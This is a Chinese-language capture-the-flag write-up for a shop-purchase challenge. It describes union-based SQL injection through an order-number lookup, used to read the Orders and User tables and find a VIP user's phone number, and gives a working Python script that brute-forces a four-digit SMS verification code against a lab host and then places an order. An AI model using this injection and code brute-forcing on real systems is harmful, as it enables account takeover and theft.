







# build it————商城购买

## Flag=flag{shopping_is_my_favorite_hobby}

## 具体过程
- 正常注册及登录，购买价格为0的商品，获得订单编号873
- 进入“我的订单”，输入订单编号873，可以看到具体订单信息。在开发者工具的Network中，可以看到具体的查询语句，确认有Orders表。<br>

- 利用联合查询查看Order表中是否有下单价格较高的“超级用户”，发现ID=1和2的用户比较有钱，可能是“超级用户”。

- 推测数据库中存在User表，尝试select成功，确定有User表

- 查看id=1和id=2的用户User表的内容，发现id=1的用户是VIP，可以锁定目标了。用户名为VIP_FIND_MY_PHONE，根据输出的提升信息，猜测13300001111为手机号。退出当前用户，用手机号进行登录。


- 手机登录时要进行验证码破解，刚开始尝试用burpsuite，但是受限于网速和验证码的60s过期的机制，放弃了。经讨论使用python利用代码进行自动化登录购买最后获取flag。
   ``` bash
   import requests as req
   session = req.session()

   while True:
        url='http://10.64.137.190:8003/src/user/sendVerifyCode.php?'
        resp=session.get(url, params={'phonenumber':'13300001111'})  #请求发送验证码
        ls =0
        url2='http://10.64.137.190:8003/src/user/verifyPhoneVc.php?' #验证验证码
        for i in range(1000, 10000): #验证码为四位
            resp=session.get(url2,params={'phonenumber':'13300001111','verifycode':i})
            if i==1000:
                ls=resp.headers['Content-Length'];
                # print(resp.headers)
            if ls!=resp.headers['Content-Length']:  
                url3='http://10.64.137.190:8003/src/order/placeAnOrder.php?' # 购买商品
                res=session.get(url3,params={'prodid':1})
                # print(resp.headers)
                print(res.content)
    ```
   - for循环里面的`if ls!=resp.headers['Content-Length']`判断语句是因为验证过正确验证码的Content-Length和其它的不一样。
     
- 最后得到的flag=flag{shopping_is_my_favorite_hobby}
